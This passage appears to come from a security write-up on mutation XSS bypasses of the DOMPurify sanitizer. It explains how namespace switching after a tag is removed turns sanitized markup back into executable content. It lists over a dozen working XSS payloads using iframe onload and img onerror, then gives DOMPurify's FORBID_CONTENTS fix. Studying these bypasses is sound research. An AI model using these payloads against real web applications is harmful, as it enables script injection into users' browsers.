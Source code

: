     **Or**

    P(D)=Dsafe \<- sanitization

    P(P(D))=Dmalicious \<- insertion to body

### Masato’s numerous bypasses when removing forbidden tags:

Description: DOMPurify removes certain tags but preserves the content inside them, which can be exploited for Mutation XSS (MXSS) through namespace switching. For example, the style tag resides inside the HTML namespace within a foreignObject element. DOMPurify removes the foreignObject tag but retains its content, causing the remaining content to switch to the SVG namespace. As a result, the malicious content that was initially safe in the HTML namespace now becomes executable as SVG tags, leading to the execution of the payload. This exploit leverages the way DOMPurify handles tag removal without completely removing the content inside. 

Similar variation to Securitymb <svg></p> but use a tag which gets removed by DOMpurify inbetween them like `<svg><foreignobject><p>` <- valid dom but after sanitization it turns `<svg><p>` <- not valid dom, so <p> kicks out

So, when content is not ignored and inserted to body, mxss can happen with below payloads

Payloads:
```html
	<svg><foreignobject><p><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>
or

<math><annotation-xml encoding="text/html"><p><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>

//<svg><p><style><p title="</style><iframe onload=alert(1)<!--"></p></style></p></svg>

DOMPurify.sanitize('<svg><title><p><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>',{"FORBID_TAGS":["title"]})

<svg><foreignobject><b><style><p title="</style><iframe onload&#x3d;alert(1)<!--"></style>

DOMPurify.sanitize('<svg><desc><b><style><b title="</style><iframe onload&#x3d;alert(1)<!--"></style>',{"FORBID_TAGS":["desc"]})

DOMPurify.sanitize('<math><annotation-xml encoding="text/html"><style><img src=x onerror=alert(1)></style>',{"ADD_TAGS":['annotation-xml']})

DOMPurify.sanitize('<math><mi><b><style><b title="</style><iframe onload&#x3d;alert(1)<!--"></style>',{"FORBID_TAGS":["mi"]})

document.write(DOMPurify.sanitize("x<noframes><svg><b><xmp><b title='</xmp><img src=x onerror=alert(1)>'>",{ADD_TAGS:["xmp"]}))

<xmp><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>
<noembed><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

<noframes><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

<plaintext><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

<iframe><svg><b><style><b title='</style><img src=x onerror=alert(1)>'>

```
**Fix by Dompurify for above issue:**
```js
/* Tags to ignore content of when KEEP_CONTENT is true */  <- Just remove contents too
const FORBID_CONTENTS = addToSet({}, [ 'annotation-xml', 'audio', 'colgroup', 'desc', 'foreignobject', 'head', 'math', 'mi', 'mn', 'mo', 'ms', 'mtext', 'script', 'style', 'template', 'thead', 'title', 'svg', 'video', ]);
```